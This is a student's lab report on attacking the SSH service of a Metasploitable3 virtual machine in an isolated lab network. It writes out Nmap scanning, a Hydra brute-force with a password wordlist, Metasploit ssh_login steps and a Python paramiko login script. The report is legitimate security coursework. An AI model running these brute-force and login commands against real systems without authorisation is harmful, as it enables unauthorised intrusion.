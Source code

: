 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
  -<img src="task1.1_screenshots/AttackerIP.png" width="400" />


- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions

### 1. Network Connectivity Test

Verified communication between attacker and victim:

```bash
ping 192.168.8.165
```

### 2. Scanning the Victim with Nmap

Discovered open ports and running services:

```bash
nmap -sV 192.168.8.165
```

**Key findings:**
- Port 22/tcp (SSH) - OpenSSH 6.6.1p1
- Port 21/tcp (FTP) - ProFTPD 1.3.5
- Port 80/tcp (HTTP) - Apache httpd 2.4.7

---

## 3. Brute-Forcing SSH with Hydra

Attempted to brute-force SSH login credentials:

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```

**Result:**
- Username: `vagrant`
- Password: `vagrant`

---

## 4. Launching Metasploit Framework

Started Metasploit:

```bash
sudo msfconsole
```

---

## 5. Exploiting SSH Using Metasploit

Loaded the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set necessary options:

```bash
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

## 6. Opening the SSH Session

After successful login:

```bash
sessions
sessions -i 1
```

---

## 7. Verifying Shell Access

Executed simple commands inside the victim machine:

```bash
whoami
uname -a
```

**Output:**
- Current user: `vagrant`
- Operating System: Ubuntu 14.04 LTS

---

# Task 1.2: Automated Exploitation Using a Custom Python Script

## Step-by-Step Actions

### 1. Installing Python SSH Library

Installed `paramiko` for SSH communication:

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Custom Script

Created a script `ssh_exploit.py` to automate the login process:

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
```

### 3. Running the Script
Executed the exploit:




```bash
python3 ssh_exploit.py
```
### 4. Verifying Access
Output confirmed successful login as vagrant and execution of commands on the victim machine.
